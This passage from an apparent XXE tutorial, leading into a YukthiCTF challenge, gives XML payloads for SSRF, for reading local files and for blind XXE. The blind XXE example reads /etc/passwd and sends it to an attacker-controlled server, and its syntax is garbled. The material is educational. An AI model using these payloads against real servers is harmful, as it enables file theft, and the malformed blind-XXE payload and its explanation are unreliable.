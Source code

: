 In this example, the attacker uses XXE to make a request to an internal resource (`http://internal-server/internal-resource`). The server, processing this XML, will make the request to the internal resource and return the response to the attacker, effectively bypassing network restrictions.

**File Retrieval**:
File retrieval involves accessing files stored on the server, potentially sensitive files like application source code, configuration files, or logs.

```xml
<!-- Malicious XML payload -->
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///path/to/sensitive/file">
]>
<foo>&xxe;</foo>

```

This XML payload attempts to retrieve a sensitive file located at `/path/to/sensitive/file` on the server. The server, processing this XML, will replace `&xxe;` with the contents of the specified file, exposing sensitive information to the attacker.

**Blind XXE**:
Blind XXE attacks occur when the application is vulnerable to XXE, but the attacker cannot directly observe the output of the injected entity. However, the attacker can still infer information based on differences in application behavior.

```xml
<!-- Malicious XML payload -->
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "<http://attacker-controlled-server/endpoint>">
<!ENTITY blindXXE "<!ENTITY &#37; file SYSTEM 'file:///etc/passwd'><!ENTITY &#37; dtd SYSTEM '<http://attacker-controlled-server/evil.dtd>'><!ENTITY &#37; remote SYSTEM 'http://attacker-controlled-server/?%file;'><!ENTITY &#37; start '<!ENTITY &#37; all \\"'>&remote;'><!ENTITY &#37; end \\"'>">
%blindXXE;
]>
<foo>&all;</foo>

```

In this example, the attacker cannot directly observe the contents of `/etc/passwd`, but they can infer its contents based on differences in behavior. For instance, if the application behaves differently depending on whether a user exists in `/etc/passwd` or not, the attacker can use this to infer information about the file's contents.

Now that you have learnt about XXE vulnerabilities, let’s do a challenge from YukthiCTF Quals ‘24.

To connect to the YukthiCTF platform, you need to connect via `wireguard` into their remote private network. You can look up on their YouTube channel on how to connect.

Here’s how the interface looks after connecting to their network.
